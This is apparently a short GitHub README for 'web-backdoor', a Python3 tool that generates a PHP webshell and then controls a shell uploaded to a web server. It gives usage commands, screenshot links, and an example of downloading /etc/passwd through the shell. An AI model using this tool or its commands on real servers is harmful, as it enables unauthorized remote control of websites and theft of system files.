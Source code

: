 # web-backdoor


<p>  ./web-backdoor.py  [options]

[options]

<p> -u    ,   --url   :         url for uploaded shell
<p>  -g    , --generate          generate webshell


 usage                                          
<p>  ./web-backdoor.py  -u http://127.0.0.1/shell.php
<p>  ./web-backdoor.py  -g shell
<p>  ./web-backdoor.py  --url http://127.0.0.1/shell.php
<p>  ./web-backdoor.py  --generate shell



![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB.PNG)

# generate shell
<p>  ./web-backdoor.py -g shell

![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB31.PNG)

# run shell 

<p>  ./web-backdoor.py  -u http://127.0.0.1/shell.php

![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB32.PNG)

# download file
<p> download /etc/passwd

![alt text](https://github.com/cyberheartmi9/web-backdoor/blob/master/screenshoot/WWWEB33.PNG)


                                                                  
 # platform : Python3                                           
<h1> [ @intx0x80 ]


